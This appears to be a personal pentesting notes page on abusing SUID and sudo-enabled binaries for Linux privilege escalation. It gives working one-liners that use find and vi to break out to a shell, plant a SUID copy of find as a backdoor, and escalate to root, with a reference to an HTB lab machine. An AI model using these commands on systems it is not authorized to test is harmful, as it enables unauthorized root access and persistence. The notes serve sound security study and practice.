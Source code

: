 ```yaml
---
title: Suid Binaries
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege escalation
  - linux
---
```


# Suid binaries

Resources: [https://gtfobins.github.io/](https://gtfobins.github.io/) contains a list of commands and how they can be exploited through "sudo". 

Equivalent to suid binaries in Windows would be: [LOLBAS](https://lolbas-project.github.io/)


## Most used (by me)

### find

#### Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
find . -exec /bin/sh \; -quit
```

#### SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```bash
sudo install -m =xs $(which find) .

./find . -exec /bin/sh -p \; -quit
```

#### Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo find . -exec /bin/sh \; -quit
```

### vi

#### Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
#one way
vi -c ':!/bin/sh' /dev/null

# another way
vi
:set shell=/bin/sh
:shell
```
Used at [HTB machine Vaccine](htb-vaccine.md).


#### Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo vi -c ':!/bin/sh' /dev/null
```

